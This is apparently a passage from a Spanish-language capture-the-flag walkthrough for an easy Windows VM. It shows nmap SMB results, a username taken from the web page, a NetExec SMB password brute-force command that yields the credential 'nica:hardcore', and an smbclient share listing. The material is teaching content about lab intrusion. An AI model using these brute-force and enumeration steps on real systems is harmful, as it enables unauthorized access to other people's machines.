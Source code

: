 ```
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2025-03-26T07:24:27
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 59.02 seconds
```

Vemos varias cosas interesantes, entre ellas que tiene una pagina web en el puerto `80` y tambien tiene un servidor `SMB`, si intentamos enumerar de forma anonima el servidor `SMB` veremos que no nos deja, por lo que tendremos que seguir buscando.

Si entramos en la pagina web veremos unicamente eso:

```
Hey bro, You asked for an easy Windows VM, enjoy it. - nica
```

Vemos que nos estan proporcionando un nombre de usuario, por lo que vamos a utilizarlo para realizar fuerza bruta en el servidor `SMB` de la siguiente forma:

## NetExec

```shell
netexec smb <IP> -u nica -p <WORDLIST> --ignore-pw-decoding
```

Info:

```
SMB         192.168.1.154   445    WIN-IURF14RBVGV  [+] WIN-IURF14RBVGV\nica:hardcore
```

Vemos que hemos encontrado las credenciales de dicho usuario, por lo que listaremos los recursos compartidos del servidor de `SMB`.

```shell
smbclient -L //<IP>/ -U nica
```

Info:

```
Password for [WORKGROUP\nica]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Admin remota
        C$              Disk      Recurso predeterminado
        IPC$            IPC       IPC remota
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 192.168.1.154 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```
